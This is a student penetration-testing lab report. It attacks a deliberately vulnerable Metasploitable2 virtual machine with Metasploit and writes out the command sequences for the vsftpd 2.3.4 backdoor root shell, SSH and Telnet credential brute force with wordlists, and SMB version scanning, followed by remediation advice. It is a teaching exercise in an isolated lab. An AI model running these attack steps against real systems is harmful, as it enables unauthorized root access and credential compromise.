# **LAB 03**

## **Exploiting FTP, SSH, Telnet, and SMB Services**

*Penetration Testing Lab Report*

| Student Name | Tandin Zangmo |
| :---- | :---- |
| **Machine (Attacker)** | Kali Linux — 192.168.56.4 |
| **Machine (Victim)** | Metasploitable2 — 192.168.56.5 |
| **Tool Used** | Metasploit Framework v6.4.116-dev |
| **Date** | 25 March 2026 |
| **Subject** | Network Security / Ethical Hacking Lab |

# **1. Introduction**

This report shows the exploitation of four types of commonly vulnerable network services on a Metasploitable2  and to do it we are using the Metasploit Framework from a Kali Linux. 

The four services targeted are:

* FTP (Port 21) — vsftpd 2.3.4 backdoor exploit

* SSH (Port 22) — credential brute force using ssh_login auxiliary module

* Telnet (Port 23) — credential brute force using telnet_login auxiliary module

* SMB (Port 445) — version enumeration using smb_version auxiliary module

# **2. Environment Setup**

Two virtual machines were set up in a host-only network on VirtualBox:

* Attacker Machine: Kali Linux (IP: 192.168.56.4, hostname: TandinKali)

* Victim Machine: Metasploitable2 (IP: 192.168.56.5, hostname: metasploitable)

Connectivity between both machines was verified using the ping command before proceeding with exploitation.

## **2.1 Connectivity Verification and Port Scan**

**Commands Used:**

ping -c 4 192.168.56.5

nmap -sV -p 21,22,23,445 192.168.56.5

**Output and Screenshot:**



**Analysis:**

The ping command confirmed zero packet loss and low latency (~0.5ms), showing that the attacker and victim machines were on the same network segment. The Nmap scan revealed four open ports with the following vulnerable services:

* Port 21 — vsftpd 2.3.4 (known backdoor vulnerability CVE-2011-2523)

* Port 22 — OpenSSH 4.7p1 Debian 8ubuntu1 (old version susceptible to brute force)

* Port 23 — Linux telnetd (unencrypted, susceptible to brute force)

* Port 445 — Samba smbd 3.X-4.X (workgroup: WORKGROUP)

# **3. Part A — FTP Exploitation (vsftpd 2.3.4 Backdoor)**

## **3.1 Overview**

The vsftpd 2.3.4 backdoor (CVE-2011-2523) is a deliberately planted backdoor in vsftpd version 2.3.4. When a username containing the string ':)' is sent to the FTP server, it opens a root shell on port 6200. Metasploit's exploit/unix/ftp/vsftpd_234_backdoor module automates this attack.

## **3.2 Commands Used**

msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

show payloads

unset payload

set RHOSTS 192.168.56.5

set LHOST 192.168.56.4

exploit

getuid

sysinfo

shell

whoami

id

hostname

ls /root

background

## **3.3 Screenshots and Outputs**

**Step 1: Launch Metasploit and Search for vsftpd Module**



**Step 2: Load Module and Attempt Payload Configuration**



**Step 3: Set Options and Run Exploit**



**Step 4: Post-Exploitation — getuid, sysinfo, shell commands**



## **3.4 Analysis of Findings**

The FTP exploit was successful. 

Key findings of the exploit are:

* getuid returned 'Server username: root' — confirming the highest level of privilege was obtained without any password.

* sysinfo revealed the victim is running Ubuntu 8.04 (Linux 2.6.24-16-server), a significantly outdated operating system.

* whoami returned 'root' and id returned uid=0(root) gid=0(root), confirming unrestricted root access.

* ls /root revealed sensitive files: Desktop, reset_logs.sh, vnc.log — demonstrating full filesystem access.

* The attack required no credentials, exploiting a malicious backdoor hardcoded into the vsftpd 2.3.4 source code.

# **4. Part B — SSH Exploitation (Brute Force)**

## **4.1 Overview**

SSH (Secure Shell) on port 22 was targeted using the Metasploit auxiliary/scanner/ssh/ssh_login module. This module performs credential brute force by systematically attempting username and password combinations from prepared wordlist files.

## **4.2 Wordlist Preparation**

Two wordlist files were created on the Kali attacker machine using the following commands:

sudo tee \~/users.txt \<\< 'EOF'

root / msfadmin / user / service / postgres

sudo tee \~/passwords.txt \<\< 'EOF'

msfadmin / password / 123456 / root / service / postgres



## **4.3 Commands Used**

use auxiliary/scanner/ssh/ssh_login

set RHOSTS 192.168.56.5

set USER_FILE /home/tandinzam/users.txt

set PASS_FILE /home/tandinzam/passwords.txt

set STOP_ON_SUCCESS true

set VERBOSE true

run

sessions \-l

sessions \-i 1

whoami

id

hostname

## **4.4 Screenshots and Outputs**

**Step 1: SSH Brute Force Execution**



**Step 2: Active Sessions**



**Step 3: Interacting with SSH Session**



## **4.5 Analysis of Findings**

The SSH brute force attack successfully discovered valid credentials. 

Key findings of the exploit are:

* The valid credential pair was msfadmin:msfadmin — a default weak credential shipped with Metasploitable2, demonstrating the danger of unchanged default passwords.

* The attack failed for all 'root' combinations first, then succeeded on msfadmin, showing STOP_ON_SUCCESS halted further attempts.

* whoami returned 'msfadmin' and id showed uid=1000 with membership in groups including adm, dialout, cdrom, and admin — a highly privileged non-root account.

* An active shell session was established, demonstrating persistent access over SSH.

# **5. Part C — Telnet Exploitation (Brute Force)**

## **5.1 Overview**

Telnet on port 23 was targeted using auxiliary/scanner/telnet/telnet_login. Unlike SSH, Telnet transmits data including credentials in plaintext, making it inherently insecure. The same wordlist files from Part B were reused.

## **5.2 Commands Used**

search telnet_login

use auxiliary/scanner/telnet/telnet_login

set RHOSTS 192.168.56.5

set USER_FILE /home/tandinzam/users.txt

set PASS_FILE /home/tandinzam/passwords.txt

set STOP_ON_SUCCESS true

set VERBOSE true

run

sessions -l

## **5.3 Screenshots and Outputs**

**Step 1: Search and Load Telnet Module**



**Step 2: Telnet Brute Force Execution**



**Step 3: Active Telnet Session**



## **5.4 Analysis of Findings**

The Telnet brute force attack was successful. Key findings:

* The same credentials (msfadmin:msfadmin) that worked for SSH also worked for Telnet, indicating password reuse across services — a common and dangerous security misconfiguration.

* A command shell session was opened: 192.168.56.4:42229 -> 192.168.56.5:23, confirming full Telnet access.

* Telnet is fundamentally insecure as all traffic including credentials and commands are transmitted in plaintext, making it vulnerable to network sniffing in addition to brute force.

* The attack completed faster than SSH brute force due to Telnet's simpler authentication protocol.

# **6. Part D — SMB Reconnaissance (Samba Version Detection)**

## **6.1 Overview**

SMB (Server Message Block) on port 445 was investigated using two Metasploit approaches: first a credential brute force with smb_login, and then a version detection scan with smb_version. The brute force did not yield results due to Samba's authentication restrictions on this version, but the version scan successfully identified the running Samba version.

## **6.2 Commands Used**

search smb_login

use auxiliary/scanner/smb/smb_login

set RHOSTS 192.168.56.5

set USERNAME msfadmin

set PASSWORD msfadmin

set CreateSession true

run

### Alternatives

search smb_version

use auxiliary/scanner/smb/smb_version

set RHOSTS 192.168.56.5

run

## **6.3 Screenshots and Outputs**

**Step 1: SMB Login Search and Brute Force Attempt**



**Step 2: SMB Version Detection**



## **6.4 Analysis of Findings**

While direct SMB credential login was not achieved, the reconnaissance was successful. Key findings:

* The smb_version scan identified the target as running Samba 3.0.20-Debian on a Unix host.

* Samba 3.0.20 is critically vulnerable to CVE-2007-2447, a command injection flaw in the MS-RPC interface — a separate, severe vulnerability not tested in this lab.

* The smb_login brute force failure is consistent with the behavior of this specific Samba version, which rejects certain authentication types at the protocol level rather than just checking credentials.

* The successful identification of the Samba version demonstrates that even failed login attempts yield valuable intelligence for an attacker.

# **7. Summary of Findings**

| Part | Service | Attack Method | Access | Status |
| :---- | :---- | :---- | :---- | :---- |
| **Part A** | FTP (vsftpd 2.3.4) | CVE-2011-2523 Backdoor | root | **Success** |
| **Part B** | SSH (OpenSSH 4.7p1) | Brute Force - msfadmin:msfadmin | msfadmin | **Success** |
| **Part C** | Telnet (port 23) | Brute Force - msfadmin:msfadmin | msfadmin | **Success** |
| **Part D** | SMB (Samba 3.0.20) | Version scan - Vulnerable Samba | N/A | **Partial** |

## **7.1 Key Observations**

* All four targeted services (FTP, SSH, Telnet, SMB) were found open and exploitable or enumerable on the Metasploitable2 victim machine.

* The FTP backdoor (vsftpd 2.3.4) provided immediate root-level access with no credentials required — the most severe vulnerability tested.

* Password reuse was evident: the same credentials (msfadmin:msfadmin) granted access via both SSH and Telnet.

* The victim machine runs Ubuntu 8.04 (end-of-life since 2013), with multiple unpatched critical vulnerabilities across all network services.

* Telnet's use of plaintext communication makes it doubly dangerous — vulnerable to both brute force and network sniffing.

## **7.2 Recommendations**

* Disable vsftpd 2.3.4 immediately and upgrade to a patched FTP version or switch to SFTP.

* Disable Telnet entirely and replace with SSH for all remote administration.

* Enforce strong password policies — default credentials like msfadmin:msfadmin must never be used in production.

* Implement account lockout policies to prevent brute force attacks on SSH.

* Upgrade the operating system and all services to currently supported versions with active security patches.

* Use firewall rules to restrict access to sensitive ports (21, 22, 23, 445) to trusted IP ranges only.

# **8. Conclusion**

This lab successfully demonstrated the exploitation of four common network services on a vulnerable target machine using the Metasploit Framework. Through Part A, a critical backdoor in vsftpd 2.3.4 was exploited to gain root access without any credentials. Parts B and C demonstrated successful brute force attacks against SSH and Telnet using weak default credentials. Part D identified a severely outdated and vulnerable Samba version through reconnaissance.

The lab reinforces the importance of keeping software up to date, using strong and unique passwords, disabling insecure legacy protocols like Telnet, and regularly auditing network services for known vulnerabilities. The Metasploit Framework proved to be a powerful tool for automating these attacks in a controlled environment.